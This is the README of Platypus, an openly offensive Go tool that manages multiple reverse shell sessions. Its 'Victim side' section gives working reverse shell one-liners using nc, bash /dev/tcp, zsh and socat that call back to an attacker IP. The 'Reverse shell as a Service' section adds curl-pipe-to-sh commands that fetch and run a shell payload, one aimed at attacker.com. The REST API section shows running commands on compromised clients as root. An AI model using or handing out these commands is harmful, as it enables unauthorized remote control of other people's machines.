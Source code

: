 # Platypus

[![GitHub stars](https://img.shields.io/github/stars/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus/stargazers)
[![GitHub license](https://img.shields.io/github/license/WangYihang/Platypus.svg)](https://github.com/WangYihang/Platypus)


A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service

#### Screenshot
![](https://upload-images.jianshu.io/upload_images/2355077-9ef699f1de815f9e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/2355077-bd729ecfe7d2dcc0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### Network Topology
```
Attack IP: 192.168.1.2
    Reverse Shell Service: 0.0.0.0:8080
    RESTful Service: 127.0.0.1:9090
Victim IP: 192.168.1.3
```

#### Run Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Run Platypus from release binaries
```
// Download binary from https://github.com/WangYihang/Platypus/releases
chmod +x ./Platypus_linux_amd64
./Platypus_linux_amd64
```

#### Victim side
```
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```

#### Reverse shell as a Service
```bash
// Platypus is able to multiplexing the reverse shell listening port
// The port 8080 can receive reverse shell client connection
// Also these is a Reverse shell as a service running on this port

// victim will be redirected to attacker-host attacker-port
// sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# curl http://192.168.1.2:8080/attacker.com/1337
bash -c 'bash -i >/dev/tcp/attacker.com/1337 0>&1'
# sh -c "$(curl http://192.168.1.2:8080/attacker.com/1337)"

// if the attacker info not specified, it will use host, port as attacker-host attacker-port
// sh -c "$(curl http://host:port/)"
# curl http://192.168.1.2:8080/
curl http://192.168.1.2:8080/192.168.1.2/8080|sh
# sh -c "$(curl http://host:port/)"
```

#### RESTful API
* `GET /client` List all online clients
```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```
* `POST /client/:hash` execute a command on a specific client
```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```
* How to hash?
```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```

#### TODO
- [ ] Send a specific command to all clients
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
- [ ] Use crontab
- [ ] Use HR package to detect the status of client (maybe `echo $random_string`)
- [ ] Upgrade common reverse shell session into full interactive session
- [ ] Provide full kernel API
- [ ] Upload file
- [ ] Download file
- [ ] List file
- [ ] Web UI
- [ ] User guide
- [ ] Benchmark
- [ ] Upgrade to Metepreter session

